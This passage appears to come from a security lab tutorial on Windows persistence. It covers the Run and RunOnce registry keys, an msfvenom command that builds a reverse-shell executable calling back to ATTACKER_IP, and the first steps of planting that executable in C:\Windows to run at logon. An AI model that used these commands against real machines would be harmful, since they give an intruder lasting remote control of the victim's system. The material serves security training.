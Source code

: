 You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
  
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT={4451} -f exe -o {revshell.exe}
```

After transferring it to the victim machine, let's move it to `C:\Windows\`
```shell-session
C:\> move revshell.exe C:\Windows
```

Create a *REG_EXPAND_SZ* registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. 

The entry's name can be anything you like, and the value will be the command we want to execute.
